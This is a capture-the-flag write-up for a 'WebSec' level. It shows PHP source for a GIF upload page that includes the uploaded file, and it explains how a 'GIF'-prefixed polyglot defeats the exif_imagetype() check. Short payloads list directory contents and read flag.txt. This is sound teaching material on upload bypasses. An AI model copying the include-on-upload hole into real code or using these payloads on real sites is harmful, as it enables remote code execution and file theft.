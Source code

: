# level08  
## Source codes  
source.php  
```php
<!DOCTYPE html>
<html>
<head>
    <title>#WebSec Level Eight</title>
    <link rel="stylesheet" href="../static/bootstrap.min.css" />
</head>
    <body>
        <div id="main">
            <div class="container">
                <div class="row">
                    <h1>Level Eight <small> - Bypass Security Features </small></h1>
                </div>
                <div class="row">
                    <p class="lead">
                        This is our neat image-dumper service, that only allows <a href='https://en.wikipedia.org/wiki/GIF'>GIF</a>.<br>
                        You can check its source code <a href='source.php'>here</a> if you don't believe us.
                    </p>
                </div>
            </div>
            <div class="container">
                <div class="row">
                    <form action="" method="post" enctype="multipart/form-data" class='form-inline'>
                        <div class='form-group'>
                            <input type="file" name="fileToUpload" id="fileToUpload">
                            <p class="help-block">Select image (.gif only) to upload</p>
                        </div>
                            <div class='form-group'>
                            <input class='btn btn-default' type="submit" value="Upload Image" name="submit">
                        </div>
                    </form>
                </div>    
                <?php if (isset ($_FILES) && !empty ($_FILES)): ?>
                <div class="row">
                <?php
                    $uploadedFile = sprintf('%1$s/%2$s', '/uploads', sha1($_FILES['fileToUpload']['name']) . '.gif');

                    if (file_exists ($uploadedFile)) { unlink ($uploadedFile); }

                    if ($_FILES['fileToUpload']['size'] <= 50000) {
                        if (getimagesize ($_FILES['fileToUpload']['tmp_name']) !== false) {
                            if (exif_imagetype($_FILES['fileToUpload']['tmp_name']) === IMAGETYPE_GIF) {
                                move_uploaded_file ($_FILES['fileToUpload']['tmp_name'], $uploadedFile);
                                echo '<p class="lead">Dump of <a href="/level08' . $uploadedFile . '">'. htmlentities($_FILES['fileToUpload']['name']) . '</a>:</p>';
                                echo '<pre>';
                                include_once($uploadedFile);
                                echo '</pre>';
                                unlink($uploadedFile);
                            } else { echo '<p class="text-danger">The file is not a GIF</p>'; }
                        } else { echo '<p class="text-danger">The file is not an image</p>'; }
                    } else { echo '<p class="text-danger">The file is too big</p>'; }
                ?>
                </div>
                <?php endif ?>
            </div>
        </div>
    </body>
</html>

```  
## Writeup
This website prints content of a GIF file you uploaded without sanitizing, so you can do XSS or php RCE if you could contain JavaScript or PHP code in upload file. There is a validation that restrict us to upload only GIF files by `exif_imagetype()` function. But it is not difficult to bypass because exif_imagetype() function checks only first some bytes or magic number of input file. In my attempt, exif_imagetype() function only checks three bytes `GIF` to check if input file is a valid GIF file.  
I made two "GIF" files to list files, and to show the flag.  

list_files.gif
```php
GIF  
<?php var_dump(scandir('.')); ?>
```  
get_flag.gif
```php
GIF
<?php echo file_get_contents('flag.txt'); ?>
```